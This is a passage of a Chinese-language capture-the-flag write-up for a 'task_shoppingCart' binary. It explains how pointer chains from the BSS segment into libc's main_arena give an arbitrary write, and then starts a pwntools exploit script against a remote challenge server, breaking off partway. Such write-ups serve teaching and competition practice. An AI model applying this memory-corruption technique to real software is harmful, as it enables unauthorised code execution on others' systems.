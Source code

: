 我们可以修改C的内容，让它指向libc中 `main_arena`那里，为什么要指向那里呢？ 因为那里的基本都是存着自身地址`-0x10`的指针，依靠这个我们就可以达到任意写

```
+---------------------+          +---------------------+         +--------------------+
|                     |          |                     |         |                    |
|          C          | +----->  |        D            | +-----> |         E          |
|                     |          |                     |         |                    |
+---------------------+          +---------------------+         +--------------------+



         BSS段                       Libc+0x10xx00                  Libc+0x10xx00-0x10

         Index: -37

```

怎么达到呢？

首先我们目前可以修改的是E的内容

我们可以再创建F，让它指向E，只要在E处填上我们想控制的地址就行

```
+------------------+         +-----------------+         +-----------------+
|                  |         |                 |         |                 |
|         F        | +-----> |        E        | +---->  |        G        |
|                  |         |                 |         |                 |
+------------------+         +-----------------+         +-----------------+


       Bss段                   Libc+0x10xx00-0x10           被 控 制 的 内 存

       Index:-38

```

最终的payload如下

```python
from pwn import *

debug=0

context.log_level='debug'
e=ELF('./libc-2.23.so')

if debug:
    #p=process('./task_shoppingCart')
    p=process('./task_shoppingCart',env={'LD_PRELOAD':'./libc-2.23.so'})
    gdb.attach(p)
else:
    p=remote('49.4.13.41', 32430)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

for i in range(14):
    ru('EMMmmm, you will be a rich man!')
    sl('1')
    ru('RMB or Dollar?')
    se('2222\n')
```